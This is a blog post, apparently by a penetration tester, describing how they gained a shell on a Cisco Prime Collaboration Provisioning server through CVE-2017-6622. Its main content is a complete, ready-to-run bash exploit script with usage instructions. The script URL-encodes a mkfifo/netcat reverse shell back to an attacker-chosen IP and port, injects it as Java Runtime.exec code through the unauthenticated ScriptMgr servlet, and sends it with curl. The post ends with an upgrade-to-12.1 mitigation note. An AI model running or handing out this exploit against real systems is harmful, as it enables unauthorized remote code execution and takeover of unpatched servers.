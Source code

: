 ```yaml
---
title: Cisco Prime Collaboration Provisioning RCE
category: Security
tags: [exploit, hacking, security]
---
```


Sometimes, as part of my day job I get to go out and do penetration testing for random places. The past two weeks I've been lucky enough to be on my second professional pentest. It was a lot of fun, and particularly challenging. Our customer had an excellent security posture, but I did stumble across a Cisco server that had a reported remote code execution vulnerability, [CVE-2017-6622](https://nvd.nist.gov/vuln/detail/CVE-2017-6622). However, I couldn't find any good proof-of-concept code for obtaining a shell from it. So, after I got the shell I decided to write up this little post.

## Vulnerable Software

Being in an enterprise environment we found plenty of VoIP phones. As a result of this, the customer was using a piece of software called Cisco Prime Collaboration. This software helps enable rapid installation and maintenance of Cisco Unified Communications and Cisco TelePresence components as well as the provisioning of users and services, substantially increasing productivity and lowering operating expenses. If I remember correctly, it is a Java server (my note taking could improve) which has several endpoints. More information on the software can be found at [Cisco's website](https://www.cisco.com/c/en/us/products/cloud-systems-management/prime-collaboration/index.html).

## Java Remote Code Execution

One of our vulnerability scanners picked up a remote code execution (RCE) vulnerability on this machine. However, it's PoC was a simple ping command. After verifying this was indeed a positive result I set out to obtain a shell. I ran into several problems with formatting the URL, but I finally came up with the script below for gaining access via a netcat reverse shell.

```bash
# Exploit Title: Cisco Prime Collaboration Provisioning < 12.1 - ScriptMgr Servlet Authentication Bypass Remote Code Execution
# Date: 09/27/2017
# Exploit Author: Adam Brown
# Vendor Homepage: https://cisco.com
# Software Link: https://software.cisco.com/download/release.html?mdfid=286308336&softwareid=286289070&release=11.6&flowid=81443
# Version: < 12.1
# Tested on: Debian 8
# CVE : 2017-6622
# Reference: https://www.tenable.com/plugins/index.php?view=single&id=101531
# Mitigation - Upgrade your Cisco Prime Collaboration Provisioning server to 12.1 or later.

# Description - This vulnerability allows an unauthenticated attacker to execute arbitrary Java code on a system running Cisco Prime Collaboration Provisioning server < 12.1 via a scripttext parameter in the ScriptMgr page.

# Usage: ./prime-shell.sh <TARGET-IP> <ATTACKER-IP> <ATTACKER-PORT>

function encode() {
	echo "$1" | perl -MURI::Escape -ne 'chomp;print uri_escape($_),"\n"'
}

TARGET=$1
ATTACKER=$2
PORT=$3

BASH=$(encode "/bin/bash")
COMMAND=$(encode "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER $PORT >/tmp/f")
SCRIPTTEXT="Runtime.getRuntime().exec(new%20String[]{\"$BASH\",\"-c\",\"$COMMAND\"});"

curl --head -gk "https://$TARGET/cupm/ScriptMgr?command=compile&language=bsh&script=foo&scripttext=$SCRIPTTEXT"
```

## Coffee Break!

I hope you enjoyed this post! If you are running Cisco Prime Collaboration provisioning please ensure that you've upgraded to at least version 12.1 in order to mitigate the above mentioned attack. As always, please reach out with any questions you may have, and happy hacking!

